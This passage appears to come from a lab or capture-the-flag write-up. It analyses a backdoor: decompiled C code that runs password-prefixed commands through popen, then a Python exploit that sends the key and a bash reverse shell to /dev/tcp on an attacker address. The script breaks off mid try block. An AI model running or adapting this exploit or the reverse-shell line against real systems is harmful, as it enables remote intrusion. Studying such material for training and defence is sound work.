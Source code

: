 ```c
          
          local_1018[(int)sVar8] = '\0';
          
          // Checks if the received command starts with the authentication password
          iVar1 = strncmp(local_1018, (char *)&local_1027, (long)(int)sVar4);
          if (iVar1 == 0) {
            // Executes the command after the password using popen
            __stream = popen(local_1018 + (int)sVar4, "r");
            if (__stream == (FILE *)0x0) {
              perror("popen");
              uVar5 = 0xffffffff;
              goto LAB_00101653;
            }
            
            while (pcVar7 = fgets(local_1018, 0x1000, __stream), pcVar7 != (char *)0x0) {
              sVar6 = strlen(local_1018);
              send(iVar2, local_1018, sVar6, 0);
            }
            
            pclose(__stream);
          }
          else {
            local_1034 = 0x2064696c61766e49;
            local_102c = 0xa79656b;
            local_1028 = 0;
            sVar6 = strlen((char *)&local_1034);
            send(iVar2, &local_1034, sVar6, 0);
          }
        }
        uVar5 = 0;
      }
    }
  }
  
LAB_00101653:
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return uVar5;
  }
  
  __stack_chk_fail();
}
```

This malware opens port 2385. All payload requests, containing the secret + command, are executed as commands. It’s a RCE (Remote Code Execution). We can create a Python script to exploit this RCE:
```python
import socket

host = "172.16.0.70"
port = 2385

key = "backd00r2k23@_"

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    shell = "/bin/bash -c 'sh -i >& /dev/tcp/10.0.10.235/4444 0>&1'"
    payload = f"{key} {shell}"
    
    s.sendall(payload.encode())

    res = s.recv(1024).decode()
    print(res)
except Exception as e:
```